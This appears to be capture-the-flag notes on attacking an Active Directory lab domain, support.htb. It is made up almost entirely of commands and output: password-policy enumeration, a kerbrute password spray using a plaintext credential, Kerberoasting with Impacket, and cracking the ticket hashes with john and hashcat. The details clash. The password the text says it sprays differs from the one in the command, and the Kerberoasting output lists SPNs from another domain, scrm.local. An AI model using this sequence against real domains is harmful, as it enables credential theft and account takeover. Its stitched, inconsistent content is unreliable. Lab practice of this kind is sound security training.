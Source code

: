 # Password policy enumeration
can we brute?
```$ python enum_policy.py support.htb 'support\support' 'Ironside437pleasure401Watchful'```
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray
Trying 'Aa123456' against all domain users.
```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside437pleasure401Watchful'```

```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
# Kerberoasting
SPN set on a user? we can ask the KDC for a TGS that contains their password and crack it offline 

```$ python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip 10.10.11.174 'support.htb/support:Ironside437pleasure401Watchful'```

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
$ john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 19600 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```
